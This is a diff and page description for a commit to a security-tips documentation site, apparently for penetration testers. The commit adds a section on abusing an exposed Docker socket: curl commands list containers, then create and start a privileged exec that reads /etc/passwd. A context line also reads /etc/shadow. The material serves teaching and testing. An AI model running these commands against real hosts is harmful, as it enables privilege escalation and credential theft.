

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/docker.md, in a window 1280 px wide and 900 px high, scrolled down 1531 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add docker.sock exploit

````diff
--- a/docs/docker.md
+++ b/docs/docker.md
@@ -86,3 +86,30 @@ cat /etc/shadow
 ```bash
 docker save -o output.tar public.ecr.aws/xxx/yyy
 ```
+
+## Exploit docker.sock with curl
+
+From [https://dejandayoff.com/the-danger-of-exposing-docker.sock/](https://dejandayoff.com/the-danger-of-exposing-docker.sock/
+):
+
+```bash
+root@1nmyd0ck3r:~# ls -al /var/run/docker.sock
+srw-rw---- 1 root 998 0 May 29 15:07 /var/run/docker.sock
+
+root@1nmyd0ck3r:~# curl --unix-socket /var/run/docker.sock http://127.0.0.1/containers/json
+[
+    {
+        "Id": "9a79cbdfbc4d48982f1a427909bb6...",
+        # ...
+    },
+    {
+        "Id": "76b79677e3cc5db8764df08d75474...",
+        # ...
+    }
+]
+
+root@1nmyd0ck3r:~# curl -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' --unix-socket /var/run/docker.sock http://127.0.0.1/containers/9a79cbdfbc4d48982f1a427909bb6.../exec
+{"Id":"1bb5e42858b7f684152a66e8ac54ced5c80aa0c50d1eb5a482341076d61ee256"}
+
+root@1nmyd0ck3r:~# curl --output - -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' --unix-socket /var/run/docker.sock http://127.0.0.1/exec/1bb5e42858b7f684152a66e8ac54ced5c80aa0c50d1eb5a482341076d61ee256/start
+```
````
